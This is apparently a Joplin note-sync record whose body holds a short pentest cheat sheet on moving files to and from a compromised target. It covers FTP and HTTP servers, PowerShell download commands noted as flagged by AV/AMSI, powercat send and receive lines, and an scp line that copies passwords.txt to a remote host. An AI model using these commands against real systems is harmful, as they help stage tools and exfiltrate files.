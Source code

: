 id: d36a8ab559884964a05f6fd416155213
parent_id: 
item_type: 1
item_id: b106972e6c2c4924a1c18862645e70ab
item_updated_time: 1643082057467
title_diff: "[{\"diffs\":[[1,\"Transferring Files\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":18}]"
body_diff: "[{\"diffs\":[[1,\"# Services to Host Files on your System: \\\n\\\nGeneral Options: \\\n\\\nFTP:\\\n\\\nInstall pyftpdlib\\\n- pip3 install pyftpdlib\\\n\\\nPure-ftpd\\\n- sudo apt install pure-ftpd\\\n- service pure-ftpd start\\\n\\\nRun (-w flag allows anonymous write access)\\\n- Python3 -m pyftpdlib -p 21 -w\\\n\\\nWeb: \\\n\\\n- Python3 -m http.server 443\\\n- service apache2 start\\\n\\\nPowershell: \\\n\\\nRaw (Will get flagged by AV/AMSI): \\\n\\\n- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'\\\n- powershell -c Invoke-WebRequest -Uri \\\"http://172.21.0.0\\\" -OutFile \\\"C:\\\\path\\\\file\\\"\\\n\\\n\\\nUse Powercat: \\\n\\\nSend File:\\\n    powercat -c 10.1.1.1 -p 443 -i C:\\\\inputfile\\\nRecieve File:\\\n    powercat -l -p 8000 -of C:\\\\inputfile\\\n\\\nLinux: \\\n\\\nscp: \\\n\\\n- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2\\\n\\\nscp through ssh: \\\n\\\n- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory\\\n\\\nscp remote file to local system: \\\n\\\n- scp remote_username@172.21.0.2:/remote/file.txt /local/directory\\\n\\\n\\\n# Services to allow you to upload files to your system from the target: \\\n\\\n- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938\\\n    \"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1121}]"
metadata_diff: {"new":{"id":"b106972e6c2c4924a1c18862645e70ab","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1642623114220,"user_updated_time":1604937874428,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T01:29:14.006Z
created_time: 2022-01-28T01:29:14.006Z
type_: 13
